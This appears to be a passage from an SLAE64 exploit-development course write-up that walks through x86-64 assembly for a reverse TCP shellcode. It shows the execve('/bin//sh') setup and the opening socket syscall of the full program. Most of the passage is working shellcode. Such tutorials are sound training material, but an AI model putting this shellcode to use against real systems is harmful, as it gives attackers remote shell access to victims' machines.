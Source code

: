 Since "/bin/sh" is only 7 bytes, we need to make it 8 bytes. That is because when a string is pushed to the stack it must be multiplied by 8. The safest way to do that, without breaking any functionality, is to add a `/`. So we will use the same `python` script like before to reverse the "/bin//sh" string.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./reverse.py "/bin//sh"
String length: 8
hs//nib/ : 68732f2f6e69622f
```

Now we save that in `RBX` register and then push it to the stack.

```nasm
    mov rbx, 0x68732f2f6e69622f     ; "hs//nib/"
    push rbx
```

`RDI` points at the top of the stack, where is the string "/bin//sh" as the first argument for `execve`.

```nasm
    mov rdi, rsp            ; rdi points at "/bin//sh" at the top of the stack
```

Then, we push another `NULL` and save the current `RSP` memory address to `RDX` as the third argument from `execve`.

```nasm
    push rax                ; NULL

    mov rdx, rsp            ; rdx points at the top of the stack
```

We push the memory address of the string "/bin//sh" to the stack and save that memory location to `RSI` as the second argument for `execve`.

```nasm
    push rdi

    mov rsi, rsp
```

We add to `RAX` the hex value `0x3b` (`59` in decimal) as the syscall number for `execve`.

```nasm
    add al, 0x3b            ; 3b is the hex value of the decimal 59 for execve
```

Finally, we execute the `execve` syscall.

```nasm
    syscall                 ; exec execve syscall
```

The whole `Assembly` program is the following:

```nasm
global _start

_start:
	
	; socket
	xor rax, rax
	mov al, 0x29	; 29 is the hex value of the decimal 41 for socket
	
	xor rdi, rdi
	add rdi, 0x2	; AF_INET numeric value from PF_INET protocol family
	
	xor rsi, rsi
	add rsi, 0x1	; SOCK_STREAM constant from socket_type.h
	
	xor rdx, rdx	; 0 value because of single protocol
```